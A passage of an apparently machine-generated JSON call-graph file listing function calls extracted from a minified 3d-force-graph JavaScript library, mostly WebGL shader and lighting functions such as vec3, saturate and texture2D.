"getDistanceAttenuation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSpotAttenuation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "smoothstep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDirectionalLightInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPointLightInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDistanceAttenuation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSpotLightInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSpotAttenuation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDistanceAttenuation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHemisphereLightIrradiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getGradientIrradiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "inversesqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transposeMat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "treturn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeMultiscatteringIridescence"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeMultiscattering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tcomputeMultiscatteringIridescence"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tcomputeMultiscattering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeSpecularOcclusion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "evalIridescence"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tgetPointLightInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPointShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tRE_Direct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tgetSpotLightInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "elif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tRE_Direct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tgetDirectionalLightInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tRE_Direct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tRE_Direct_RectArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAmbientLightIrradiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLightProbeIrradiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHemisphereLightIrradiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIBLIrradiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIBLAnisotropyRadiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIBLRadiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIBLRadiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tRE_IndirectDiffuse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tRE_IndirectSpecular"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "log2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "float"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getMorph"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getMorph"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getMorph"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getMorph"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ivec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": 